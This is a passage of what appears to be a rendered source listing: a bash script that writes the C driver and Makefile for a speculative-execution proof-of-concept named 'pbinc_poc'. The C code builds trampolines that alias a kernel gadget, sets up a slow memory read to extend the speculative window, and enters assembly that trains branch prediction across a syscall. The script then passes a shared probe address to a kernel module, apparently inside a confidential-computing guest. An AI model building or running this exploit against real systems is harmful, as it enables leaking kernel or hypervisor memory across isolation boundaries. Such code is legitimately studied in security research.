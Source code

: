 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=bash, alsolanguage=C]
    // Parse GVA of shared probe from command-line
    __pbinc_probe_shared = strtoull(argv[1], NULL, 16);

    ////////////////////////////////////////////
    // 3. Build CALLSITE trampolines that alias the kernel gadget
    ////////////////////////////////////////////
    // This fills __alias_tbl[] with entry points to hand-crafted callsite stubs (trampoline calls)
    // Each one has a return address that collides with the kernel gadget's class
    (void)pbinc_create_trampolines(__pbinc_kernel_gadget_addr);

    ////////////////////////////////////////////
    // 4. Allocate lab-only memory to act as a cold read for delayed branch resolution
    ////////////////////////////////////////////
    // The address will be read from inside the ".do_branch" block in pbinc.asm
    // It must be slow (ideally cold L3 or fault-suppressed) to prolong speculative window
    void *slow = aligned_alloc(4096, 4096); // Aligned for page granularity
    if (!slow) { perror("alloc slow"); exit(1); }
    __slow_predicate_ptr = (uint64_t)slow; // Patch the ASM-visible symbol

    ////////////////////////////////////////////
    // 5. Jump into ASM:
    // [1] Transiently train -> [2] Syscall (IBPB) -> [3] Spin loop
    ////////////////////////////////////////////
    pbinc_entry(); // This does not return
    return 0;
}
EOF

info "Writing Makefile (user)"
cat > "${USER_DIR}/Makefile" <<'EOF'
CC=gcc
NASM=nasm
CFLAGS=-O2 -fno-pie -no-pie
LDFLAGS=-no-pie

all: pbinc_poc

pbinc_poc: pbinc.o trampoline.o driver.o
	$(CC) $(LDFLAGS) -o $@ $^

pbinc.o: pbinc.asm
	$(NASM) -f elf64 -o $@ $<

trampoline.o: trampoline.c
	$(CC) $(CFLAGS) -c -o $@ $<

driver.o: driver.c
	$(CC) $(CFLAGS) -c -o $@ $<

clean:
	rm -f *.o pbinc_poc
EOF

info "Building user binary"
( cd "${USER_DIR}" && $MAKE -j )

################################# runtime wiring

echo
ok "Runtime wiring (guest side)"
echo "  1) Provide SHARED (C-bit=0) 1 MiB probe's guest-physical base to the module."
read -rp "Enter SHARED probe GPA (hex, e.g. 0x12345000): " SHARED_GPA
sudo_or bash -c "echo ${SHARED_GPA} > /sys/kernel/pbinc/probe"


\end{lstlisting}
\end{document}
